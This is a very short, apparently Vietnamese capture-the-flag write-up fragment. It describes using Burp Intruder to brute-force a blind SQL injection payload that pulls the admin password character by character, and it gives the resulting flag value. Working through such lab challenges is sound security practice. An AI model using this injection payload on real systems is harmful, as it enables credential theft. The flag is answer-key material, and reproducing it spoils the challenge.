 sử dụng burp intruder brute :

payloads : ' or substr((SELECT pass FROM user WHERE id = 'admin'), 22,1) = '§F§';

flag = FLAG_KpWa4ji3uZk6TrPK

